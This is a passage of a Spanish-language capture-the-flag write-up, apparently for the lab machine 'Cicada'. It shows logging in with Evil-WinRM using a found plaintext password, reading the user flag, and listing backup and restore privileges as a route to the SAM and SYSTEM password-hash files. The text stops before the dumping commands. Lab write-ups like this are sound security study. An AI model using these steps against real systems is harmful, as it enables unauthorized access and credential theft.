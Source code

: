 Vemos que tiene un usario y su contraseña, podemos conectarnos mediante `Evil-WinRM`.


```ruby
❯ evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```
Una vez dentro procedemos a leer la flag
```ruby
Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> type ..\Desk*\use*
b3****************************a0
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 
``` 


## Escalada de privilegios

Vemos los permisos que tiene `Emily`.

```ruby
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 
```

Tenemos lo sigueinte:

- SeBackupPrivilege : Te permite leer cualquier archivo en el sistema, sin importar sus permisos.

- SeRestorePrivilege : Te permite escribir en cualquier archivo en el sistema, sin importar sus permisos.


Acceder al archivo SAM o SYSTEM :

- El archivo SAM contiene los hashes de las contraseñas de los usuarios locales.
